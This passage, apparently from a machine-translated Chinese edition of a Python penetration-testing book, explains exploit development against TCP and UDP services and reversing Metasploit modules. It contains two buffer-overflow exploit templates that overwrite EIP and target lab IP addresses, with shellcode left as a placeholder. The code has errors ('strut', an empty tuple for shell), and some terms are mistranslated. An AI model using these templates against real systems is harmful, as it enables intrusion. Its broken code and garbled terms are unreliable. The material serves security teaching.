 这种形式的攻击是你遇到的最罕见的，因为它通常不会授予你任何额外的权利。在创建此类漏洞利用时，通常要查看通过白名单程序与用户级权限授予您的其他访问权限。请记住，这种类型的攻击比恶意文件、TCP 或 UDP 服务更难编写。另一方面，您可能会编写的最常见的攻击是 TCP 服务攻击。

## 利用 TCP 服务开发系统

大多数情况下，您会遇到可以通过 TCP 利用的服务。这意味着，为了进行分析，您必须设置一个测试盒，该测试盒具有豁免权或其他调试器，并且服务正在运行。您必须对该服务附加豁免权，并像以前一样测试您的漏洞。

```
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.169"
rport = 23
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
shell =() #Code to insert
# NOPs to fill the remaining space
exploit = fill + eip + offset + shell
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.sendto(exploit, (rhost, rport))
```

如果[第 7 章](07.html "Chapter 7. Cracking the Perimeter with Python")*用 Python*破解外围的 TFTP 服务容易受到潜在的缓冲区溢出攻击，我们会考虑为 UDP 服务创建漏洞攻击。

## 利用 UDP 服务开发系统

为 UDP 服务生成漏洞非常类似于 TCP 服务。唯一的区别是您使用的是不同的通信协议。

```
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.169"
rport = 69
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =() #Code to insert
# NOPs to fill the remaining space
exploit = fill + eip + offset + shell
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
client.sendto(exploit, (rhost, rport))
```

现在，您已经了解了您可能编写的最常见的漏洞利用类型的基础知识，让我们看看如何反转 Metasploit 模块。

# 反向 Metasploit 模块

很多时候您可能会发现某个服务是可利用的，但 Metasploit 模块不是为利用该服务版本或特定操作系统版本而构建的。这并不少见，只要回想一下之前编写的漏洞。根据可能引用的 DLL，可能不会针对特定操作系统更新模块。此外，如果操作系统的更新版本问世，并且该程序或服务仍然可行，则可能需要扩展该模块。
